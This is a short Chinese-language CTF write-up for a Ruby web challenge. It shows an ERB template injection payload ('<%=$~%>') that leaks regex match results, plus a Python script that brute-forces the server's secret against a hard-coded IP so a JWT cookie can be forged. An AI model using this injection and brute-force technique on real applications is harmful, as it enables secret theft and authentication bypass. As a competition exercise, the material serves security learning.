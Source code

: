 ```ruby


def islogin
 if cookies[:auth].nil? then
   redirect to('/shop')
 end
end
```

发现
```ruby
ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result
```

存在erb模版注入，构造name为 `<%=$~%>`，do为`<%=$~%> is working`，结合
```ruby
ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")，
```

其中的`SECRET`参数可控，如果匹配到SECRET，则`$~`(ruby特性，表示最近一次正则匹配结果) 会在页面中返回，于是可以爆破secret，然后伪造JWT去买flag。
爆破脚本如下：
```python
import requests
import base64

url = "http://47.110.15.101"
re = requests.session()
re.get(url + "/api/auth")

flag = "09810e652ce9fa4882fe4875c"
while True:
   i = ""
   for i in "0123456789abcdef":
       #now = flag + i
       now = i + flag
       res = re.get(url + "/work?name=%3c%25%3d%24%7e%25%3e&do=%3c%25%3d%24%7e%25%3e%20is%20working&SECRET="+now)
       if len(res.text) > 48:
           print res.text
           print flag
           flag = now
           break
print flag
```
![](/img/2019-sctf-4.png)
拿到SECRET后就是伪造cookie去买flag了
![](/img/2019-sctf-5.png)